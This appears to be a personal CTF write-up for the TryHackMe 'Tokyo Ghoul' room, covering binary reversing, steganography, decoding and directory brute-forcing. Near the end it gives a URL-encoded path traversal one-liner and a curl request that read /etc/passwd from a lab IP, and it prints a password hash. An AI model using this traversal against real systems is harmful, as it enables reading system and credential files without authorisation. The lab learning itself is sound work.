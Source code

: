 ```radare2
|           0x55c8fc08b349      4889d6         mov rsi, rdx
|           0x55c8fc08b34c      4889c7         mov rdi, rax
|           0x55c8fc08b34f      e84cfdffff     call sym.imp.strcmp     ; int strcmp(const char *s1, const char *s2)
|           0x55c8fc08b354      85c0           test eax, eax
|       ,=< 0x55c8fc08b356      7507           jne 0x55c8fc08b35f
|       |   0x55c8fc08b358      b801000000     mov eax, 1
|      ,==< 0x55c8fc08b35d      eb05           jmp 0x55c8fc08b364
|      |`-> 0x55c8fc08b35f      b800000000     mov eax, 0
|      |       ; JMP XREF from 0x55c8fc08b35d (sym.check_password)
|      `--> 0x55c8fc08b364      c9             leave
\           0x55c8fc08b365      c3             ret
```
Switched to Ghidra because I don't have time for reversing at the moment
...
```
Hey Kaneki finnaly you want to talk 
Unfortunately before I can give you the kagune you need to give me the paraphrase
Do you have what I'm looking for?

> kamishiro

Good job. I believe this is what you came for:
You_found_1t
```

jasonroom.html - this was very iterating

I the interest of time 
```bash
steghide extract -sf rize_and_kaneki.jpg
Enter passphrase:
wrote extracted data to "yougotme.txt".
```

Cyberchef the morse code -> `from morse -> from hex -> from base64` that is `d1r3c70ry_center` this is a directory to the use `gobuster` to find the `claim`  directory.

The issue with the very disconcerting error messages as hints is that it is filtering bad character "`.`" 

[Octothorpe](https://octothorp88.medium.com/tryhackme-toyko-ghoul-bbf16db3a66a)' sick bash oneliner is awesome - which I want to translate for my GoSmokeSomeFilters   
```bash
encoded=$(echo -ne '/../../../../../../../../../../../../' | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g')

curl http://10.10.203.94/d1r3c70ry_center/claim/index.php?view=${encoded}%2fetc%2fpasswd
```

```
kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash
```
